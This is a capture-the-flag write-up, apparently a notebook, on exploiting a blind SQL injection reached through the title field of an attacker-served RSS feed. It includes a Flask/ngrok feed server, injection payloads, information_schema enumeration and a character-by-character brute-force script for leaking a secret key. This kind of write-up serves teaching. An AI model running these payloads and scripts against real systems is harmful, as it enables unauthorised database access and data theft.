# Feed the Beast

> 2000 | WEB
> 
> You got into COViD's admin portal! However, it appears that certain information is still hidden. Time to hunt for clues!
>
> [Admin Portal](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41041/)

Writeup by [@4yn](https://github.com/4yn)

Web 2000, my team was the only solve in our category 😲🎉. This challenge involves blind SQL injection with an interesting vector and several gotchas that can block you from getting flag.

[A tl;dr is available below](#Summary)

This writeup is also a IPython notebook, you can [run this locally](./feed-the-beast-solution.ipynb).

## What we have to work with

Opening the web portal, we see a graph plotting some odd data, but also two more sub-pages to view.



The first interesting page is called "Feeds" and seems to be a table of RSS feeds. Sure enough the links do point to some [real](https://cyware.com/allnews/feed) [RSS](https://threatpost.com/feed/) [feeds](https://nakedsecurity.sophos.com/feed/) that are serving real news feeds and what not. There also seems to be a form to submit links to new feeds to be added.



Finally, there is the "Keys" page which has a table of some names, owners and what looks like hexadecimal "keys". Some of them are redacted and shows the text "MASTER KEY -- LOCAL ONLY". Chances are our flag is in there and we need to find a way to get the redacted keys. That and, why is everything displayed in a table? Are we getting into SQL territory?



As a final bit of recon, we can take a look at the headers of the responses to the web server. We can see that the server is running on Express, a javascript webserver.



## Exploring feed submission

If we try to re-submit a link to a preexisting feed, we get a JSON error in reply.

**Form data**
```
url: https://cyware.com/allnews/feed
```


Looks like its done some checks against the feeds that are currently in the list and prevents any feeds with duplicate titles from being added, giving this error message. While this check could be done inside javascript, it might be done inside a database using SQL as well.

If we submit a link to a different RSS feed, such as one from [The Straits Times](https://www.straitstimes.com/RSS-Feeds), we get a error toast saying that adding new feeds is not allowed.

**Form data**
```
url: https://www.straitstimes.com/news/world/rss.xml
```


Hmm, that looks a bit fishy. If a feed doesn't exist, the server echos back the title field of the feed. We can confirm this by opening up the feed ourselves.



Yep, it looks like the contents of `<title>` was printed to us. Is this a possible vector for XSS? Well not really, there isn't any indication that there is a admin bot to run XSS on nor is there a way to show this text to other users because this error is only shown to whoever submitted the form.

What if we try a [RSS generator that prints dummy text](https://lorem-rss.herokuapp.com/)?

**Form data**
```
url: https://lorem-rss.herokuapp.com/feed
```


HAHA, good ol' `[Object object]`. Looks like when the server tried to stringify the response it parsed the contents of the `<title>` as some other XML element instead of a raw string. When the XML element was stringified it would then be converted into `[Object object]` by default. Sure enough, if we load up the feed ourselves we see that the `<title>` tag actually is a `<![CDATA[]]>` tag and that was stringified into our error message here.



Across the entire web portal, this seems to be the only way we can meaningfully interact with the service so far. Since we know the server seems to be processing the `<title>` field of any XML we give it, let's see what we can do with different titles.

## Exploiting XML Injection

To have better control over the contents of an RSS feed, we can serve our own RSS feed from a local webserver like [`flask`](https://flask.palletsprojects.com/en/1.1.x/). Additionally, we can use [`ngrok`](https://ngrok.com/) to forward our local webserver to a public domain name, after that we can submit this `ngrok` URL to the flag server so it loads XML from our webserver.

The webserver can be found at at [`server.py`](./server.py). Right now, we've set up the endpoint `/static` so that it serves whatever file I have at [`static.xml`](./static.xml).

Let's see if our custom title is working, we'll put this in the XML and submit our public link to the challenge server:

**ngrok**
```bash
$ ngrok http 3000
...
Forwarding          http://261da9601892.ngrok.io -> http://localhost:3000
```

**`server.py` code**
```python
@app.route('/static')
def static_feed():
  return app.send_static_file('static.xml')
```

**Flask server run**
```bash
$ ./server.py
 * Serving Flask app "server" (lazy loading)
 ...
 * Running on http://127.0.0.1:3000/ (Press CTRL+C to quit)
 ...
```

**`static.xml` contents**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<rss xmlns:atom="http://www.w3.org/2005/Atom" version="2.0">
  <channel>
    <title>My own title!</title>
    <!--- more stuff here -->
  </channel>
</rss>
```

**Form data**
```
url: http://261da9601892.ngrok.io/static
```


Looks like our title does get echoed inside! What happens if we try to put some SQL injection inside?

**`static.xml` contents** (just the `<title>` tag from now on)
```xml
<title>' OR '1'='1</title>
```

**Form data**
```
url: http://261da9601892.ngrok.io/static
```


Well, we didn't get a injection straight away, but notice our apostrophes seems to have disappeared. What gives? Turns out, there are [five characters that need to be escaped in valid XML](https://stackoverflow.com/a/1091953/12843211), specifically the following need to be escaped and replaced with [some counterpart](https://docs.oracle.com/cd/A97335_02/apps.102/bc4j/developing_bc_projects/obcCustomXml.htm):
- apostrophe `'`
- quotes `"`
- ampersand `&`
- less than `<`; and 
- greater than `>`

Let's replace the quotes in our xml with its escape code `&#39;` and see what happens.

**`static.xml` contents** (just the `<title>` tag from now on)
```xml
<title>&#39; OR &#39;1&#39;=&#39;1</title>
```

**Form data**
```
url: http://261da9601892.ngrok.io/static
```



Hey, looks like it worked! What happens if we give it something falsy?

**`static.xml` contents** (just the `<title>` tag from now on)
```xml
<title>&#39; OR &#39;1&#39;=&#39;0</title>
```

**Form data**
```
url: http://261da9601892.ngrok.io/static
```


Yep, we now have a working [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) on the server. If the query we inject in is truthy and returns one or more rows, we are presented with a "title already exists" error. If the query we inject is falsy and results in no rows, we are represented with a "no new feeds allowed" error.

With this new info, we can try to leak data from the database by carefully crafting different SQL injections and observing what statements return with what error messages, therefore fnding out the truthiness or falsiness of the injection and possibly leaking the flag.

## Automating SQLi

Editing `staticfeed.xml` every time we want to change the feed title is tedious, so I updated `server.py` to dynamically generate a feed using the HTTP search query parameters to determine the contents of `<title>`. 

**`server.py`**
```python
@app.route('/')
def dynamic_feed():
  data = {
    'title': request.args.get('title')
  }
  return Response(render_template('feed.xml', **data), mimetype='application/xml')
```

**`feed.xml` template**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<rss xmlns:atom="http://www.w3.org/2005/Atom" version="2.0">
  <channel>
    <!--- jinja template! -->
    <title>{{title | default("Title", true)}}</title>
    <!--- more stuff here -->
  </channel>
</rss>
```

This way, all we need to do to change the feed title is to send a different link to the challenge server:



And the best thing is, the `jinja` template helps us escape any XML characters that need to be escaped!



Now, we can set up our python script to directly query the challenge server intead of us filling in the form each time.

### Challenge Server Interaction Helper

_By the way, our ngrok and `server.py` are still running._

We want to make a helper function that will prepare a URL with a special search parameter `/?title=<title_text>` and then submit that URL to the challenge server. The challenge server then loads the feed from our local weberver, which uses the parameter from earlier to customise the text inside `<title>` of the feed. On loading the customised XML file, the challenge server may then run a SQL injection that was contained inside the `<title>` text and send different error codes back to our script here.


```python
import time # For delay
import urllib # For URL encoding any special characters in the query string
import requests # For making HTTP requests to the challenge server
from bs4 import BeautifulSoup # For extracting the error message in the HTML response
```


```python
challenge_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41041/feed'
feed_url = 'http://261da9601892.ngrok.io/'
```


```python
def query_challenge(title='Feed Title'):
    # Prevent ngrok rate limit
    time.sleep(1)
    
    # Generate the URL to be submitted to the challenge server
    full_url = feed_url + '?' + urllib.parse.urlencode({
        'title': title
    })
    
    # Query the challenge server
    res = requests.post(
        challenge_url,
        data={
            'url': full_url
        }
    )
    
    if 'text/html' in res.headers['Content-Type']:
        # Query returned 0 rows -> "no new feeds allowed" error
        
        # Find the exact error message using bs4
        soup = BeautifulSoup(res.content, 'html.parser')
        alert = soup.find(class_=["alert", "alert-danger"]).string
        # Our injection was falsy
        return (False, alert, res)
    
    elif 'application/json' in res.headers['Content-Type']:
        # Get json content of response
        res_json = res.json()
        
        if 'error' in res_json:
            if res_json['error'] == 'Feed with same title already exists!':
                # Query returned 1 or more rows -> "title already exists" error
                # Our injection was truthy
                return (True, res_json['error'], res)
            
            elif res_json['error'] == 'Failed to retrieve feed!':
                # Challenge server couldn't reach our feed
                # Possibly got rate limited by ngrok
                raise RuntimeError(res, 'Failed to retrieve feed, check the server / ngrok')
                
    # Unknown error occurred
    return(None, "error", res)
```

Now, we can call `query_challenge()` to see what happens if we put some text inside the `<title>` of the RSS feed. Let's test the helper function out.


```python
# This title shouldn't exist inside the challenge server, we should get a no new feeds allowed error
query_challenge("What How")
```


    (False, 'Failed to add What How; no new feeds allowed!', <Response [200]>)


```python
# This title does exist inside the challenge server, we should get a title already exists error
query_challenge("Cyware News - Latest Cyber News")
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# This SQL injection is truthy and will return all rows, we should get a title already exists error
query_challenge("' OR '1'='1")
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# This SQL injection is falsy and will return 0 rows, we should get a no new feeds allowed error
query_challenge("' OR '1'='0")
```


    (False, "Failed to add ' OR '1'='0; no new feeds allowed!", <Response [200]>)


Nice, we now have an easier way to query the server! Let's start to leak data.

## Blind SQL Schema Enumeration

Considering that the web page earlier had different pages for "Feeds" and "Keys", it's safe to assume that the data is stored in different tables. We can't just keep stacking `WHERE` statements inside the injection because that will only look at data related to "Feeds". Instead we need to begin querying against the table containing "Keys". Before we can do that, we need to find exactly what are the schema and table names used to store the respective data. One way to do this is through [introspection of `information_schema`](https://www.sqlinjection.net/table-names/). 

We can nest a subquery inside the SQLi from earlier. Depending on how many rows the subquery returned, we can return a truthy or falsy response. Using this, we can check if rows exist in the tables of `information_schema` specific names.


```python
# Check if there are any columns at all, should return true
query_challenge(
    "' OR (SELECT COUNT(*) FROM information_schema.columns) != 0 AND '1'='1"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# Check if there is a table name called 'baba', should return false
query_challenge(
    "' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'baba') != 0 AND '1'='1"
)
```


    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'baba') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)


```python
# Check if there is a table name called 'keys'
query_challenge(
    "' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys') != 0 AND '1'='1"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


Now we know there is a table called `keys`!

To make things cleaner, we can wrap the subquery in another function:


```python
def query_challenge_union(table, condition="'1'='1'"):
    return query_challenge(f"' OR (SELECT COUNT(*) FROM {table} WHERE {condition}) != 0 AND '1'='1")
```


```python
# There, looks cleaner!
query_challenge_union("information_schema.columns", "table_name LIKE 'keys'")
```


    (True, 'Feed with same title already exists!', <Response [500]>)


The next thing we need to find out is the name of the table schema, as we will need that to query the `keys` table later on.

Using some educated guesses, you can try names like `data`, `challenge`, `feed` or others, and eventually we found that the schema was named `admin`.


```python
# No schema called "challenge" with table name "keys"
query_challenge_union("information_schema.columns", "table_name LIKE 'keys' AND table_schema LIKE 'challenge'")
```


    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys' AND table_schema LIKE 'challenge') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)


```python
# Found schema called "admin" with table name "keys"
query_challenge_union("information_schema.columns", "table_name LIKE 'keys' AND table_schema LIKE 'admin'")
```


    (True, 'Feed with same title already exists!', <Response [500]>)


Next, we should find out the names of columns and their datatypes inside the `keys` table:


```python
# No column called "secret" in "admin.keys"
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'secret'"
)
```


    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'secret') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)


```python
# Found column called "key" in "admin.keys"
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key'"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# Column "key" in "admin.keys" is not of type TEXT
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key' AND data_type LIKE 'TEXT'"
)
```


    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key' AND data_type LIKE 'TEXT') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)


```python
# Column "key" in "admin.keys" is type VARCHAR
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key' AND data_type LIKE 'VARCHAR'"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


So now we know that we have a table `admin.keys` with an interesting column `key`. The flag probably is in there, seeing as it was the main redacted data on the challenge site.

We can also find out more about other columns in the database, but this won't be as necessary for the rest of the challenge.


```python
# "admin.keys" contains "name" that is type VARCHAR
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'name' AND data_type LIKE 'VARCHAR'"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# "admin.feeds" table exists
# "admin.feeds" contains "title" that is type VARCHAR
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'feeds' AND table_schema LIKE 'admin' AND column_name LIKE 'title' AND data_type LIKE 'VARCHAR'"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# "admin.feeds" contains "description" that is type TEXT
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'feeds' AND table_schema LIKE 'admin' AND column_name LIKE 'description' AND data_type LIKE 'TEXT'"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


## Blind SQL Data Leaking

We now know there is a table `admin.keys`, so let's see if there is a flag in there to leak.


```python
query_challenge_union("keys")
```


    (None, 'error', <Response [500]>)


```python
query_challenge_union("admin.keys")
```


    (None, 'error', <Response [500]>)


```python
res = query_challenge_union("admin.keys")
res[2].text
```


    '{"error":"Failed!"}'


Uh oh, looks like if we try to query `admin.keys` it seems to give us a server error, instead of the expected errors we identified earlier. After some more digging, we found that our enumeration just now was _case insensitive_. The table name was actually `Keys` with a caiptal `K`. It seems that the `LIKE` filter we used earlier is configured to give case insensitive comparisons. We can confirm this by comparing behavior to the `=` operator.


```python
[
    print(i)
    for i in
    [
        "LIKE operator",
        query_challenge_union("information_schema.columns", "table_name LIKE 'Keys'"),
        query_challenge_union("information_schema.columns", "table_name LIKE 'keys'"),
        "= operator",
        query_challenge_union("information_schema.columns", "table_name = 'Keys'"),
        query_challenge_union("information_schema.columns", "table_name = 'keys'")
    ]
]
```

    LIKE operator
    (True, 'Feed with same title already exists!', <Response [500]>)
    (True, 'Feed with same title already exists!', <Response [500]>)
    = operator
    (True, 'Feed with same title already exists!', <Response [500]>)
    (False, "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'keys') != 0 AND '1'='1; no new feeds allowed!", <Response [200]>)


    [None, None, None, None, None, None]


Hmm, that might be an issue when we leak the flag later if the flag is case sensitive. Anyways, let's see what inside the `admin.Keys` table.


```python
# There are rows inside "admin.Keys"
query_challenge_union("admin.Keys")
```


    (True, 'Feed with same title already exists!', <Response [500]>)


```python
# There is one key that begins with "govtech-csg{"!!!!
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%'"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


Bingo, there's our flag.

To get pass the case insensitive `LIKE`, we can check the contents of the key one character by one character, converting them with the `ASCII()` operator to force a case-sensitive comparison. Specifically, we use a query that looks like:


```python
# 1st character of flag is 'g'
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 1), 1)) = ASCII('g')"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


Let's break down the SQLi:
- `Keys.key LIKE 'govtech-csg{%'` filters all keys to only the key that looks like a flag
- `RIGHT(LEFT(Keys.key, X), 1))` picks the X-th character (1-indexed) of the key
- `ASCII(...)` converts the Xth character to its respective ASCII code
- `ASCII(...) = ASCII(Y)` compares the X-th character's ASCII code to the ascii code of `Y` (or any other character we use)

We can double check that our comparison works by testing against parts of the flag that we already know.


```python
# 2nd character of flag is NOT (capital) 'O', should return false
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 2), 1)) = ASCII('O')"
)
```


    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM admin.Keys WHERE Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 2), 1)) = ASCII('O')) != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)


```python
# 2nd character of flag is (small) 'o', should return true
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 2), 1)) = ASCII('o')"
)
```


    (True, 'Feed with same title already exists!', <Response [500]>)


To speed things up, we can make another helper function.


```python
def query_character_eq(index, character): # index is 0-indexed
    return query_challenge_union(
        "admin.Keys",
        f"Keys.key LIKE 'govtech-csg{{%' AND ASCII(RIGHT(LEFT(Keys.key, {index + 1}), 1)) = ASCII('{character}')"
    )
```


```python
# Sanity check the eq helper function, third character is (small) 'v', should return false, true
query_character_eq(2, 'V'), query_character_eq(2, 'v')
```


    ((False,
      "Failed to add ' OR (SELECT COUNT(*) FROM admin.Keys WHERE Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 3), 1)) = ASCII('V')) != 0 AND '1'='1; no new feeds allowed!",
      <Response [200]>),
     (True, 'Feed with same title already exists!', <Response [500]>))


Now we can get a list of all printable characters and try to brute force the flag!

If we want to find the 13th character (the one after `{`), we loop through all the printable characters. First query `query_character_eq(12, 'a')`, then `query_character_eq(12, 'b')` and so on until one character returns a true response, which means we've found the character!


```python
import string
charset = list(sorted(string.ascii_letters + string.digits + string.punctuation))
"".join(charset)
```


